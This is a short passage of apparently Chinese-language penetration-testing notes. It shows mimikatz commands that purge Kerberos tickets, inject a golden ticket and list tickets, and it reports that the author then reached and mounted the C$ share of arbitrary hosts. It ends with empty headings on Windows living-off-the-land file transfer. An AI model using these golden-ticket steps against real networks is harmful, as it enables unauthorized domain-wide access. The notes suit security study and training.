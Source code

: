 
```bash
# 清除缓存的票据
kerberos::purge

# 注入黄金票据 test.kiribi
kerberos::ptt test.kiribi

# 列出票据
kerberos::list
```

![](img/1.png)

尝试访问任意 IP 的c目录。 发现访问成功。

尝试挂载到自己盘下执行成功。


# windows LOL

## 文件传输
